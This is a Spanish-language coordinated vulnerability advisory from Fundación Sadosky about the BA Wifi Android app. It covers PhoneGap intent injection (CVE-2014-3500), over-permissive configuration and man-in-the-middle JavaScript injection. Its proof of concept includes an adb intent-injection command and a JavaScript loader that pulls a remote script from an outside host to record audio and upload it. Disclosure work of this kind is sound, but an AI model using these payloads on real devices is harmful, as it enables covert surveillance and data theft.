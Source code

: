 
# Vulnerabilidades en BA Wifi para Android


## 1. Información del reporte

**Título:** Vulnerabilidades en BA Wifi para Android

**Reporte ID:** STIC-2015-0115

**Reporte URL:** [http://www.fundacionsadosky.org.ar/publicaciones/#seguridad-en-tic](http://www.fundacionsadosky.org.ar/publicaciones/#seguridad-en-tic)

**Fecha de publicación:** 2015-03-01

**Fecha de última actualización:** 2015-11-26

**Fabricantes contactados:** Gobierno de la Ciudad de Buenos Aires

**Modo de publicación:** Coordinado



## 2. Información de vulnerabilidades

**Clase:** Inyección de código [[http://cwe.mitre.org/data/definitions/94.html](http://cwe.mitre.org/data/definitions/94.html)]

**Impacto:** Perdida de datos

**Remotamente explotable:** Si

**Localmente explotable:** Si

**Identificador CVE:** N/A



## 3. Descripción de vulnerabilidad

La aplicación para Android BA Wifi [1] del Gobierno de La Ciudad de Buenos Aires, permite localizar las conexiones Wifi libres del Gobierno de la Ciudad por comunas, por puntos de interés o por ubicación. Según estadística del mercado de aplicaciones Google Play, a febrero de 2015 fue instalada entre 10.000 y 50.000 veces.
 
La aplicación fue desarrollada usando Apache Cordova[2] (conocido también como PhoneGap), un framework de código abierto que permite construir aplicaciones para dispositivos móviles a partir de tecnología web standard. El framewok embebe en la aplicación móvil un motor de navegador web (conocido como WebView) adaptado a la características del dispositivo, para que el usuario pueda visualizar el contenido de una aplicación web. Este mecanismo permite a un desarrollador incorporar a dispositivos móviles, rápidamente y con poco esfuerzo de adaptación, aplicaciones web ya existentes o desarrolladas para otras plataformas.
 
El framework utilizado por la aplicación utiliza de WebView customizados para que un usuario pueda visualizar su contenido web. El problema de estas vistas es que para aumentar la usabilidad de la aplicación, se rompe el sandbox de un browser habitual, permitiendo que un script dentro del contenido interactúe con componentes del sistema. El framework de Cordova permite correr código Java embebido a través de interfaces definidas por el mismo. Debido al _target-SDK_ de BA WiFi, en dispositivos con versiones anteriores a 4.4.4, Javascript malicioso inyectado puede llegar a correr código nativo arbitrariamente. Debido a que la aplicación posee más permisos de los necesarios (grabar audio y video, capturar fotos, recibir SMS, leer y escribir contactos y en la memoria externa), Javascript malicioso podría a llegar a realizar cualquiera utilizar estas funcionalidades, sin importar la versión de Android del dispositivo.
 
Como la aplicación intenta obtener las direcciones desde la ubicación actual del dispositivo a las de las redes abiertas de forma insegura, es posible inyectar Javascript malicioso por cualquier atacante en la red conectada o que se encuentre en la ruta al servidor.  
 
La configuración utilizada de Apache Cordova/PhoneGap es también insegura. Permite a la aplicación conectarse a cualquier dominio y no solo al dominio donde se encuentra el servidor, esto permite al atacante forzar a la aplicación a acceder a un servidor remoto posiblemente malicioso. La segunda razón, es que expone todos los plugin que permiten acceder a un recurso del celular desde Javascript. La aplicación debería sólo aquellos plugins que son necesitados para su correcto funcionamiento, en este caso geolocalización y acceso a internet. 


## 4. Paquetes vulnerables

* Dispositivos corriendo la versión 1.1 o versiones anteriores.

## 5. Información y soluciones del fabricante
 
 El fabricante actualizó la aplicación el 10 de abril de 2015 y la versión 2.0 soluciona los problemas mencionados.


## 6. Créditos

Las vulnerabilidades fueron descubiertas e investigadas por Joaquín Rinaudo. La publicación de este reporte fue coordinada por Programa Seguridad en TIC. 

## 7. Descripción técnica

BA Wifi utiliza la versión de PhoneGap 2.3.0 que es vulnerable a CVE-2014-3500 [3] permitiendole a otras aplicaciones cambiar la página de inicio de la aplicación por una con contenido malicioso a través de un Intent que lleve un parámetro extra con referencia al contenido bajo la clave _url_. 
  
La correcta configuración del framework podría llegar a bloquear dicho ataque cuando se restringen los dominios a los cuales la aplicación se puede conectar a través del archivo de configuración _res/xml/config.xml_. Sin embargo, BA Wifi permite a la aplicación acceder a cualquier dominio dado a que para filtrar los accesos utiliza un comodín.
  
Dentro de este archivo de configuración se encuentran también listados los plugins del framework de PhoneGap utilizados. Muchos de estos plugins incluidos en BA Wifi no son necesarios para su funcionamiento. Por ejemplo, _Media_ permite reproducir y grabar audio desde Javascript.  _ContactManager_ permite el manejo de los contactos del dispositivo y _Capture_ permite capturar fotos y videos. Ninguno de estos módulos son  utilizado por BA Wifi pero permitirían que atacantes que lleguen a comprometer la aplicación puedan utilizarlos. Además de incluir estos plugins, la aplicación necesita pedir los permisos necesarios de Android para poder utilizar estos recursos. Sucede que BA Wifi es una aplicación sobreprivilegiada, es decir, requiere más permisos de los que utiliza. Para poder ser instalada, un usuario tiene que permitir el acceso a la aplicación a sus contactos, a la cámara, permitir grabar audio y video, recibir SMS, leer y escribir en la memoria externa además de los permisos que si podrían son utilizados como acceso a su ubicación e internet.  
  
Como prueba de concepto que la aplicación es vulnerable a CVE-2014-3500 se puede enviar el siguiente comando a través de adb (Android Debug Bridge) que simularía ser una aplicación que envía un Intent malicioso que inyecta Javascript utilizando el módulo _Media_[4] logrando capturar audio.

_ adb shell am start -n ar.gob.ba.bawifi/.bawifi --es url "https://googledrive.com/host/0B0f57xoYl_BFOG5FMEhpc3AzckU/testing.html"_
BA Wifi intenta obtener el recorrido a los lugares donde hay redes abierta a partir de la ubicación del dispositivo. Para ello, se envía un pedido HTTP a _http://recorridos.usig.buenosaires.gob.ar/2.0/consultar_recorrido_. Este pedido devuelve un Javascript (originalmente un Callback) que se corre en un contexto de un iframe dentro de la ventana principal de la aplicación. Dado a que el pedido se realiza mediante transporte inseguro, atacantes podrían realizar Man-in-the-Middle e inyectar su propio Javascript. Nuevamente, dado a que Phonegap utiliza interfaces que conectan Java con Javascript, es posible acceder a información privada del usuario a través de estas inyecciones de código. Por ejemplo, el siguiente código inyectado al pedido permite grabar audio y subirlo a un servidor malicioso. Este inyecta al documento del padre con un tag de _script_ similar al del ejemplo anterior. 

```
    function loadjsfile(filename){

    var xhrObj = new XMLHttpRequest();
    // open and send a synchronous request
    xhrObj.open('GET', filename, false);
    xhrObj.send('');
    // add the returned content to a newly created script tag
    var se = document.createElement('script');
    se.type = "text/javascript";
    se.charset = "UTF-8";
    se.text = xhrObj.responseText;
    alert(xhrObj.responseText);

    parent.document.getElementsByTagName('head')[0].appendChild(se);
 
    }

    loadjsfile("http://yourjavascript.com/1212011542/cordova-record-and-upload.js"); 


```

Por último, inyectar código Javascript permitiría ejecutar código arbitrariamente en dispositivos con versiones corriendo anteriores a la 4.4.4 dado que la aplicación cuenta un _targetSDK_ menor a 17 lo permite que se pueda utilizar Java Reflection para acceder a otras clases que no sean la expuesta a través de la interface con _addJavascriptInterface_. A partir de la versión 4.4.4, el motor que implementa Webview bloquea el uso de Java Reflection [5].


## 8. Cronología del reporte

* **2015-04-10:** 
          Se publica una actualización que soluciona los problemas mencionados.
        
* **2015-11-26:** 
          Se publica el reporte de seguridad.
        

## 9. Referencias

[1] [https://play.google.com/store/apps/details?id=ar.gob.ba.bawifi](https://play.google.com/store/apps/details?id=ar.gob.ba.bawifi)

[2] [http://cordova.apache.org](http://cordova.apache.org)

[3] [https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-3500 ](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-3500 )

[4] [http://docs.phonegap.com/en/edge/cordova_media_media.md.html](http://docs.phonegap.com/en/edge/cordova_media_media.md.html)

[5] [https://code.google.com/p/chromium/issues/detail?id=359528 ](https://code.google.com/p/chromium/issues/detail?id=359528 )

## 10. Acerca Fundación Dr. Manuel Sadosky

La Fundación Dr. Manuel Sadosky es una institución público privada cuyo objetivo es favorecer la articulación entre el sistema científico – tecnológico y la estructura productiva en todo lo referido a la temática de las Tecnologías de la Información y la Comunicación (TIC). Creada a través del Decreto Nro. 678/09 del Poder Ejecutivo Nacional, la Fundación es presidida por el ministro de Ciencia, Tecnología e Innovación Productiva. Sus vicepresidentes son los presidentes de las cámaras más importantes del sector TIC: CESSI (Cámara de Empresas de Software y Servicios Informáticos) y CICOMRA (Cámara de Informática y Comunicaciones de la República Argentina). Para más información visitar: [http://www.fundacionsadosky.org.ar](http://www.fundacionsadosky.org.ar)

## 11. Derechos de autor

El contenido de este reporte tiene copyright (c) 2014 Fundación Sadosky y se publica bajo la licencia Creative Commons Attribution Non-Commercial Share-Alike 4.0: [http://creativecommons.org/licenses/by-nc-sa/4.0/](http://creativecommons.org/licenses/by-nc-sa/4.0/)
